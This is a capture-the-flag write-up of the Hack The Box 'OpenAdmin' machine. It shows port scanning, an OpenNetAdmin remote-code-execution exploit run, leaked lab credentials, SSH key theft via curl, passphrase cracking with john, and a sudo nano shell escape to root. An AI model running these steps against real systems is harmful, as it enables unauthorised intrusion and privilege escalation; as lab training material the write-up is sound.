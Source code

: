 ```yaml
---
date: 2020-05-17 06:52:37
layout: post
title: "Openadmin"
subtitle: Hackthebox
description:
image: /writeup/assets/img/openadmin/openadmin.png
optimized_image:
category: Hackthebox
tags: OpenNetadmin
author:
paginate: false
---
```


Starting with the nmap scan,
```bash
nmap -T4 -p- -A 10.10.10.171
```
Found 2 open ports.
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.18 (94%), Linux 3.16 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   470.80 ms 10.10.14.1
2   455.86 ms 10.10.10.171

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.60 seconds
```
Opening the website hosted at port 80.We get a default apache2 page.
Fuzzing for directories and pages 
```bash
ffuf -w wordlist -u http://10.10.10.171/FUZZ -e .php,.html
```
We get directories **/music** and **/ona**.
![placeholder](/writeup/assets/img/openadmin/music.png "website")
Music directory contains a fine website and ona directory contains the OpenNetAdmin panel.
![placeholder](/writeup/assets/img/openadmin/panel.png "ona")

The version of opennetadmin is 18.1.1 which is vulnerable to a remote code execution exploit.
![placeholder](/writeup/assets/img/openadmin/ona.png "exploit")

Using the exploit we get a shell.
```bash
exp.sh http://10.10.10.171/ona/
```
![placeholder](/writeup/assets/img/openadmin/shell.png "shell")

Eumerating thorugh the machine we get a file */var/www/ona/local/config* which contains password for user jimmy.

**jimmy:n1nj4W4rri0R!**

Inside the /var/www directory, we get a direcctory named Internal . index.php isnide the internal directory contains a username jimmy and a hash which on reverse lookup comes to be **Revealed**.
Looking for open ports
```bash
netstat -tulpn
``` 
![placeholder](/writeup/assets/img/openadmin/ports.png "ports")
We found 1 unusual port 52846.
Maybe a site is hosted internally as it seems to be by the name of directory and the open port 52846.

Inside /etc/apache2/sites_enabled, we get three conf file, one among which states that a site is being operated internally.
```conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htbbloodninjas
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```
Let's connect and see what can we get.
Since we know by looking in the files inside Internal directory tht index.php will be used to login and then main.php will show the ssh private key of user joanna.

```bash
curl -s http://127.0.0.1:52846/index.php -c cookie -d “username=jimmy&password=Revealed”
# -c is used to store session data in a cookie named cookie
# -d holds the data to provided in login form
```
and then
```bash
curl  -s http://127.0.0.1:52846/main.php -b cookie
#-b to fetch the cookie named cookie
```
We get the ssh private key for user joanna.
Cracking the key with john shows the passphrase **bloodninjas**

```bash
$ ssh2john.py priv_key > hash
$ john --wordlist=rockyou.txt hash
```
Logged in thorugh ssh.

```bash
ssh -i priv_key joanna@10.10.10.171
```
Got the joanna's shell as well as user.txt.

```bash
sudo -l
```
![placeholder](/writeup/assets/img/openadmin/sudo.png "sudo")
This shows that we can open /opt/priv by nano with root privileges.

Time for GTFObins.

Got the command needed to escalate our privileges
Open the file /opt/priv with root privileges as stated in sudoers file 
```bash
sudo /bin/nano /opt/priv 
```
Now ***Ctrl+R*** then ***Ctrl+X***

We will get tab at bottom to write command to execute.

Type 
***reset; sh 1>&0 2>&0*** 

Got the root shell and the root.txt.


